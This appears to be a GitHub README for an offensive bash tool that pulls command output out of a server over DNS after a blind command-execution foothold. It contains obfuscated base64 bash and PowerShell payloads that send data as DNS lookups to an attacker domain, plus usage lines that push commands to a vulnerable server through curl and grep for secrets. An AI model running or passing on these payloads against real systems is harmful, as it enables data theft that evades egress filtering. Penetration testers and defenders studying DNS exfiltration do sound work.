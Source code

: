 # DNS Data Exfiltration

A bash script that automates the exfiltration of data over dns in case we have a blind command execution on a server where all outbound connections except DNS are blocked. The script currently supports bash and powershell and is compatible with exec style command execution (e.g. java.lang.Runtime.exec).

For its operations, the script takes as input the command we want to run on the target server and transforms it according to the target shell in order to allow its output to be exfiltrated over DNS. After the command is transformed, it's fed to the "dispatcher". The dispatcher is a program provided by the user and is responsible for taking as input a command and have it executed on the target server by any means necessary (e.g. exploiting a vulnerability). After the command is executed on the target server, it is expected to trigger DNS requests to our DNS name server containing chunks of our data. The script listens for those requests until the output of the user provided command is fully exfiltrated.

Indicatively, below are the transformations performed to exfiltrate the output length of the command `ls`

bash variant 1:
```bash
bash -c {echo,IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwNTYwLndoYXRldi5lcgo=}|{base64,-d}|bash
```
bash variant 2:
```bash
bash -c $@|base64${IFS}-d|bash . echo IG5zbG9va3VwIGAobHMpfGJhc2U2NCAtdzB8d2MgLWNgLmxlbi4xNjAzMDMwODYwLndoYXRldi5lcgo=
```

powershell:
```powershell
powershell -enc UgBlAHMAbwBsAHYAZQAtAEQAbgBzAE4AYQBtAGUAIAAkACgAIgB7ADAAfQAuAHsAMQB9AC4AewAyAH0AIgAgAC0AZgAgACgAWwBDAG8AbgB2AGUAcgB0AF0AOgA6AFQAbwBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoAFsAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4ARQBuAGMAbwBkAGkAbgBnAF0AOgA6AFUAVABGADgALgBHAGUAdABCAHkAdABlAHMAKAAoAGwAcwApACkAKQAuAGwAZQBuAGcAdABoACkALAAiAGwAZQBuACIALAAiADEANgAwADMAMAAzADAANAA4ADgALgB3AGgAYQB0AGUAdgAuAGUAcgAiACkACgA=
```

## Usage
1. Local testing for bash:
```bash
./dns_data_exfiltration.sh -h whatev.er -d "dig @0 +tries=5" -x dispatcher.sh -c 'ls -lha|grep secret' -- stdbuf -oL tcpdump --immediate -l -i any udp port 53
```

Contents of dispatcher.sh:
> $@

2. Local testing for powershell (requires WSL2 for tcpdump):
```bash
./dns_data_exfiltration.sh -w -h whatev.er -d "Resolve-DnsName -Server wsl2_IP -Name" -x dispatcher.sh -c 'gci | % {$_.Name}' -- stdbuf -oL tcpdump --immediate -l -i any udp port 53
```

Contents of dispatcher.sh:
> /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe -c "$1"

3. powershell example where we ssh into our NS to get the incoming DNS requests.
```bash
./dns_data_exfiltration.sh -w -h yourdns.ns -d "Resolve-DnsName" -x dispatcher.sh -c 'gci | % {$_.Name}' -- stdbuf -oL ssh -i key user@HOST 'sudo tcpdump --immediate -l udp port 53'
```

Contents of dispatcher.sh
> curl https://vulnerable_server --data-urlencode "cmd=\${1}"

4. More information on the options
```bash
dns_data_exfiltration.sh --help
```

### Comments
Currently the provided command gets executed multiple times on the server until all of its output is extracted. This behavior may cause problems in case that command is not idempotent (functionality or output-wise, e.g. process listing) or is time/resource intensive. 
A workaround to avoid running into issues for the aforementioned cases is to first store the command output into a file (e.g. /tmp/file) and then read that file.

### Todos
 - Concurrency in the data exfiltration loop